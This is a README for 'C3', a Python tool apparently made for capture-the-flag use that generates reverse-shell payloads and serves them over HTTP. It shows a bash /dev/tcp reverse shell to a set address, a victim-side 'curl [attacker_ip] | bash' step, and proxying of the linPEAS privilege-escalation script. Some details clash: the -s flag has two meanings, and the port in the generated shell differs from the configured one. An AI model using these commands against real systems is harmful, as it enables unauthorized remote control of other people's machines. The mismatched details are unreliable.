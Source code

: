 # C3 - The CTF Command and Control
```
_________ ________
\_   ___ \_____  \
/    \  \/  _(__  <    ______
\     \____/       \  /_____/
 \______  /______  /
        \/       \/
___________.__             _______________________________
\__    ___/|  |__   ____   \_   ___ \__    ___/\_   _____/
  |    |   |  |  \_/ __ \  /    \  \/ |    |    |    __)
  |    |   |   Y  \  ___/  \     \____|    |    |     \
  |____|   |___|  /\___  >  \______  /|____|    \___  /
                \/     \/          \/               \/
                                                .___
  ____  ____   _____   _____ _____    ____    __| _/
_/ ___\/  _ \ /     \ /     \__  \  /    \  / __ |
\  \__(  <_> )  Y Y  \  Y Y  \/ __ \|   |  \/ /_/ |
 \___  >____/|__|_|  /__|_|  (____  /___|  /\____ |
     \/            \/      \/     \/     \/      \/
  ____                         __                .__
 /  _ \     ____  ____   _____/  |________  ____ |  |
 >  _ </\ _/ ___\/  _ \ /    \   __\_  __ \/  _ \|  |
/  <_\ \/ \  \__(  <_> )   |  \  |  |  | \(  <_> )  |__
\_____\ \  \___  >____/|___|  /__|  |__|   \____/|____/

   by Blaudoom
```

This is a VERY simple script that can be used to create your basic reverse-shell commands.
Using a simplified http-server lets us serve files at server root, making calling them more convenient.

Shells from: [PentestMonkey](https://github.com/pentestmonkey)


```
usage: sheller.py [-h] [-l SHELL] [-a LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [-s] [-i INTERFACE] [--httpport HTTPPORT]

A script to generate reverse shells on various languages and serve them on
http-server.

optional arguments:
  -h, --help           show this help message and exit
  -l SHELL             Language to identify the shell to be built. Use -s to
                       see available shells.
  -a LOCALADDR         Address to connect back to
  -p LOCALPORT         Port to connect back to
  -s HTTPPORT  Port to start HTTP server in, default 80
  ```
## Usage
```
Available commands:

reverse [method] - Creates a reverse shell and either serves it over http or prints it (Method either serve or print)
proxy [url/preset] - Downloads and serves a single webpage over http. Param 1 is an url or a preset name. 
exec [command] - Serves the given command as text on http-server
set [option] [value] - Sets the value for an option, overwriting the one given as a commandline param.
shells - Prints available shell-types
presets - Prints presets
options - Prints options
stop - Kill the http-server
exit - Exit the application
```


## Examples:
### Reverse on http-server
  ```
$ sudo python3 c3.py -s 80 -l bash -a 169.254.138.91

Options:

shell:bash
localAddr:169.254.138.91
localPort:4444
interface:None
httpPort:80


C3>reverse serve
Opening shellfile: bash
C3>Starting webserver on port 80

C3>127.0.0.1 - - [12/Aug/2021 14:02:07] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [12/Aug/2021 14:02:07] "GET /favicon.ico HTTP/1.1" 200 -
```

produces:

```
bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
```

and serves it on http-server at all interfaces on port 80 at / http://localhost
  
on victim machine:
```
curl [attacker_ip] | bash
```

should run the reverse shell generated, if bash is present and http is not blocked.

### Proxy a preset script

```
C3>proxy linpeas
Proxying url: https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```
serves the linpeas shellscript-file at server root